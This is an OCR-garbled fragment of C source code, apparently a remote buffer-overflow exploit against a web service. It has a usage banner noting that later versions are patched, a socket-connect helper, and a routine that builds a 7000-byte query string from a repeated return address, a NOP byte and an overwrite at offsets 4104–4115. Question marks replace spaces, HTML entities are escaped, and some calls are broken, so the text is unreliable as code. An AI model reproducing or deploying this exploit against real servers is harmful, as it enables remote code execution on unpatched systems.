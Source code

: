 option.\n");
fprintf(stderr,"Versions? above? 24? are? patched? for? this? bug.\n");
exit(1);
}? else? {
return? sp;
}?
}?
int? usage? (char? *name)? {
fprintf(stderr,"\tUsage:%s? -h? host? -d? ]\n",name);
fprintf(stderr,"\te.g.? %s? -h? <a href="http://www.foo.bar/">www.foo.bar</a>? -d? 127.0.0.1:0? -v? 22\n",name);
exit(1);
}?
int? openhost? (char? *host,? int? port)? {?
int? sock;?
struct? hostent? *he;
struct? sockaddr_in? sa;?
he? =? gethostbyname(host);
if? (he? ==? NULL)? {
perror("Bad? hostname\n");
exit(-1);
}?
memcpy(&amp;sa.sin_addr,? he-&gt;h_addr,? he-&gt;h_length);?
sa.sin_port=htons(port);
sa.sin_family=AF_INET;
sock=socket(AF_INET,SOCK_STREAM,0);
if? (sock? &lt;? 0)? {
perror? ("cannot? open? socket");
exit(-1);
}
bzero(&amp;sa.sin_zero,sizeof? (sa.sin_zero));?
if? (connect(sock,(struct? sockaddr? *)&amp;sa,sizeof? sa)&lt;0)? {
perror("cannot? connect? to? host");
exit(-1);
}?
return(sock);
}?
void? doit? (char? *host,long? sp,? char? *shellcode)? {?
int? cnt,sock;
char? qs[7000];
int? bufsize? =? 16;
char? buf[bufsize];
char? chain[]? =? "user=a";?
bzero(buf);?
for(cnt=0;cnt&lt;4104;cnt+=4)? {
qs[cnt+0]? =? sp? &amp;? 0x000000ff;
qs[cnt+1]? =? (sp? &amp;? 0x0000ff00)? &gt;&gt;? 8;
qs[cnt+2]? =? (sp? &amp;? 0x00ff0000)? &gt;&gt;? 16;
qs[cnt+3]? =? (sp? &amp;? 0xff000000)? &gt;&gt;? 24;
}
strcpy(qs,chain);
qs[strlen(chain)]=0x90;?
qs[4104]=? sp&amp;0x000000ff;
qs[4105]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4106]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4107]=(sp&amp;0xff000000)&gt;&gt;24;
qs[4108]=? sp&amp;0x000000ff;
qs[4109]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4110]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4111]=(sp&amp;0xff000000)&gt;&gt;24;
qs[4112]=? sp&amp;0x000000ff;
qs[4113]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4114]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4115]=(sp&amp;0xff000000)&gt;&gt;24;